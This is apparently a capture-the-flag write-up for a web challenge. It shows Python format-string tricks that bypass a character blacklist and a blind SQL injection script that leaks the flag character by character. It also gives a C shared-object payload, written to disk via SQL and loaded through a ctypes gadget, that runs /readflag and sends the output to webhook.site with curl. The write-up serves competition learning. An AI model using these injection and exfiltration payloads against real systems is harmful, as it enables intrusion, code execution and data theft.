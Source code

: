 ```yaml
---
ai_date: '2025-04-27 05:28:42'
ai_summary: Exploited SQL injection with format string and payload injection to bypass
  restrictions, eventually using 'DUMPFILE' to leak flag
ai_tags:
- sql
- format-string
- payload-injection
created: 2025-01-12T11:00
points: 460
solves: 33
updated: 2025-01-12T20:04
---
```


After some testing I discovered the world of python format string attacks.

```python
username = "{password.__init__}"
password = "hi"

SELECT * FROM users WHERE username = '<method-wrapper '__init__' of str object at 0x00007FF90538C3B8>' AND password = 'hi'
```

Soon I found out how to bypass the blacklist entirely.

```python
MALICIOUS_CHARS = ['"', "'", "\\", "/", "*", "+" "%", "-", ";", "#", "(", ")", " ", ","]

username = "{A}' OR 1=1 -- '"
for i, c in enumerate(MALICIOUS_CHARS):
    username = username.replace(c, "{A.MALICIOUS_CHARS[%d]}" % i)

r = requests.post("https://prepared-1-0226d7f72e5495ee.chal.uoftctf.org/", data={
    "username": username,
    "password": "w"
})
print(r.text)
```

However the server does not reply with anything, so simply logging in isn't helpful.

```python
user = cursor.fetchone()
if user:
	flash("Login successful!", 'success')
	return render_template('under_construction.html')
else:
	flash("Login Failed\n"+sanitized_query, 'error')
```

I tried leaking the credentials in global but they are just the default credentials.

## Part 1: SQL '%' operation

Then I implemented a char-by-char attack by using SQL's `%` wild card.

Login success only happens if the last char is correctly guessed.

```python
import string
import asyncio
import aiohttp
from tqdm.asyncio import tqdm
MALICIOUS_CHARS = ['"', "'", "\\", "/", "*", "+" "%", "-", ";", "#", "(", ")", " ", ","]

# UNION SELECT NULL, NULL, flag FROM flags --
target = "https://prepared-1-0226d7f72e5495ee.chal.uoftctf.org/"
# target = "http://localhost:5000/"


async def check_flag(session, flag):
    username = "{A}' OR EXISTS (SELECT 1 FROM flags WHERE flag LIKE CONCAT(UNHEX('"+flag.encode().hex()+"'), '%')) #"
    for i, c in enumerate(MALICIOUS_CHARS):
        username = username.replace(c, "{A.MALICIOUS_CHARS[%d]}" % i)

    async with session.post(target, data={
        "username": username,
        "password": "w"
    }) as response:
        text = await response.text()
        return flag if "Login successful!" in text else None


async def check(flag):
    async with aiohttp.ClientSession() as session:
        tasks = []
        for c in string.printable:
            if c == '%':
                c = '\\%'
            if c == '_':
                c = '\\_'
            tasks.append(check_flag(session, flag + c))

        results = []
        for task in tqdm(asyncio.as_completed(tasks), total=len(tasks)):
            results.append(await task)
        for result in results:
            if result:
                return result
    return None


async def main():
    flag = "uoftctf"
    while True:
        flag = await check(flag)
        if flag is None:
            break
        print(flag)
        if flag[-1] == '}':
            break
    print(flag.replace('\\', ''))

asyncio.run(main())
```

### part 1 flag

```flag
uoftctf{R3M3Mb3R_70_c173_Y0uR_50URc35_1N_5qL_F0RM47}
```

## Part 2

- SQL's `into outfile` does not work on pre-existing files.
- Template injection was not able to call any functions.
- `cdll[/readflag]` fails due to it not being position independent.

My closest attempt was writing a binary via SQL then trying to load it.

```python
import base64
import re
import requests
import html
import os
target = "http://localhost:5000/"


MALICIOUS_CHARS = ['"', "'", "\\", "/", "*", "+" "%", "-", ";", "#", "(", ")", " ", ","]
with open("exploit.so", "rb") as f:
    payload = base64.b64encode(f.read()).decode('utf-8')

# username = "{B}' UNION (SELECT FROM_BASE64('"+payload+"'),NULL,NULL) INTO OUTFILE '/run/mysqld/payload.so' # -- "
username = """{B}{{A}}' {{A.__init__.__globals__[setuptools].windows_support.ctypes.cdll[/run/mysqld/payload.so]}}"""
for i, c in enumerate(MALICIOUS_CHARS):
    username = username.replace(c, "{B.MALICIOUS_CHARS[%d]}" % i)
# print(username)
response = requests.post(target, data={
    "username": username,
    "password": "w"
})

decoded_response = response.content.decode('utf-8')
decoded_response = html.unescape(decoded_response)
print(decoded_response)

```

This is the source of `payload.so`.

```c
#include <stdio.h>
#include <stdlib.h>

__attribute__((constructor)) void on_load() {
    FILE *fp;
    char buffer[128];
    char curlCommand[256];
    const char *url = "https://webhook.site/";
    fp = popen("/readflag", "r");
    if (fp == NULL) {
        perror("popen failed");
        return;
    }
    if (fgets(buffer, sizeof(buffer), fp) != NULL) {
        snprintf(curlCommand, sizeof(curlCommand), "curl -X POST -d \"flag=%s\" %s", buffer, url);
        system(curlCommand);
    }
    pclose(fp);
}
```

It works locally (via python script).

```python
import ctypes
ctypes.cdll['./exploit.so']
```

But for some reason, never on the docker or remote.

The file is there, but I get error of `file not found` when trying to execute it with format string payload.

![image.png](https://res.cloudinary.com/kumonochisanaka/image/upload/v1736726181/2025/01/df944d01f0a33f1134a02a51267e84a4.png)

After the CTF ended, I realised that I was really close.

All I had to do was switch `OUTFILE` to `DUMPFILE`.

And my solution will work.

![200w.gif](https://res.cloudinary.com/kumonochisanaka/image/upload/v1736727242/2025/01/cdd29fbe6702a911d79e99121cf3bb62.gif)

```flag
uoftctf{5h3_53ll5_534_5h3ll5_by_7h3_C_5h0r3_c9b821c}
```